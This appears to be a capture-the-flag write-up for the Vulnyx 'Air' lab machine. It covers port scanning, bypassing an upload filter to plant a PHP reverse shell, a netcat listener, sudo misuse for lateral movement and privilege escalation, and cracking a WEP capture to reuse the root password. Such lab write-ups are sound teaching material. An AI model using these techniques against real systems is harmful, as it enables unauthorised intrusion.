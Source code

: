 # **Vulnyx**

![image](https://github.com/sec-fortress/sec-fortress.github.io/assets/132317714/1d217752-2e3f-41a3-998d-1db0aaeb2c3c)

***

Running our nmap scan we have 3 opened ports


```
# Nmap 7.94SVN scan initiated Sat May 25 00:09:32 2024 as: nmap -p- -T4 -v --min-rate=1000 -sCV -oN nmap.txt 192.168.43.6
Nmap scan report for air (192.168.43.6)
Host is up (0.00033s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u1 (protocol 2.0)
| ssh-hostkey: 
|   256 0e:95:f2:88:f3:0f:ca:38:ec:da:3c:c0:cd:19:20:41 (ECDSA)
|_  256 53:21:e1:34:a6:f0:70:2b:87:e7:cf:3d:6b:85:9d:64 (ED25519)
80/tcp   open  http    nginx 1.22.1
|_http-server-header: nginx/1.22.1
|_http-title: Welcome to nginx!
| http-methods: 
|_  Supported Methods: GET HEAD
8080/tcp open  http    nginx 1.22.1
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://air.nyx:8080/
|_http-server-header: nginx/1.22.1
|_http-open-proxy: Proxy might be redirecting requests
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat May 25 00:09:41 2024 -- 1 IP address (1 host up) scanned in 9.32 seconds
```



Navigating to port 80/HTTP we have this nginx default web page 


![](https://i.imgur.com/j3igbX7.png)



We can go ahead and perform a directory bruteforce using the `dirsearch` tool 



![](https://i.imgur.com/0zaSreg.png)



We have a suspicious `/files` directory 



![](https://i.imgur.com/KCgT3PC.png)



Navigating to port 8080 we are refereed to air.nyx


![](https://i.imgur.com/vEgylpH.png)


Go ahead and add this domain to our `/etc/hosts` file



![](https://i.imgur.com/LTBzGSQ.png)


Navigating to the web page we have this 



![](https://i.imgur.com/gfCoobR.png)


Clicking on the upload bar i was able to upload image files 



![](https://i.imgur.com/B3qluU8.png)



....and yeah the upload directory was guessable (CTF experience :D)


![](https://i.imgur.com/FCseSpd.png)




So i created a php reverse shell with the file name `shell.php#.png`


![](https://i.imgur.com/VLU8XWs.png)


Still turns out we where caught, sooo the best bet is to fire up burp suite



![](https://i.imgur.com/SInpspq.png)



We where able to bypass this by uploading a valid image and then stripping out few data from this file replacing it with our php reverse shell payload



![](https://i.imgur.com/OIE5lAM.png)



Then we can navigate to http://air.nyx:8080/uploads/wtf.php and then start up our listener in which we should get a reverse shell


```
nc -lvnp 4444
```



![](https://i.imgur.com/c3Gmp12.png)


Then we can stabilize our shell


```
python3 -c 'import pty;pty.spawn("/bin/bash")'
[Ctrl+z]
stty raw -echo;fg
export TERM=xterm-256color
```



Running `sudo -l` we have writable permissions to a file called `air-repeater` as user **sam**



![](https://i.imgur.com/AaDXd53.png)



We can move laterally to user **sam** by copying the `/bin/bash` shell here



```
cp /bin/bash air-repeater
sudo -u sam /opt/air-repeater 
```




![](https://i.imgur.com/69SHU6E.png)




Running `sudo -l` again we can run the binary `/usr/bin/vifm` as user **xiao**



![](https://i.imgur.com/q2jDvx9.png)



Running `sudo -u xiao /usr/bin/vifm` we are dropped in some kind of interface where we have the content of user **xiao** directory



![](https://i.imgur.com/KYB9PmG.png)



Pressing the enter key on the `user.txt` file we are dropped into vim, we can get a shell as user **xiao** by doing the below


![](https://i.imgur.com/aHPixsX.png)


......and we got a shell xD


![](https://i.imgur.com/uZYfgbi.png)



Running linpeas i found a sus file under `/var/backups`


![](https://i.imgur.com/vGllvJj.png)



Then i unzipped this file to the `/tmp` directory


```
unzip Air-Master.zip -d /tmp
```



![](https://i.imgur.com/J1sSAXC.png)



Using [this](https://www.reviversoft.com/en/file-extensions/ivs) article i was made to realize that `.ivs` files are Initialization Vector Files used by `Aircrack-ng` as well as other applications for WEP wireless network key cracking. So let transfer the `.ivs` file to our machine.



![](https://i.imgur.com/4Zoa4do.png)



Using [this](https://github.com/openwall/john/issues/371#issuecomment-23950687) article i was made to understand that this is complex but hell yeah, there is always a way. First of all create `.hccap` file from the original `.ivs` file


```bash
aircrack-ng -J new Air-Master-01.ivs
```


![](https://i.imgur.com/EVcys8O.png)



Then use `hccap2john` to convert the `.hccap` file to a crack able file by `JtR`


```
hccap2john new.hccap > hash.txt
```



Now crack the hash with `JtR`


```
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```




![](https://i.imgur.com/ueWhGRz.png)



Password => `cheerleading`



Let try the password for the user root


![](https://i.imgur.com/y09rUoN.png)



Which works EzPz, Have a nice day

https://i.pinimg.com/originals/44/4b/8f/444b8f406347a470a7de5478206dd158.gif

<button onclick="window.location.href='https://sec-fortress.github.io';">Back To Home螥</button>


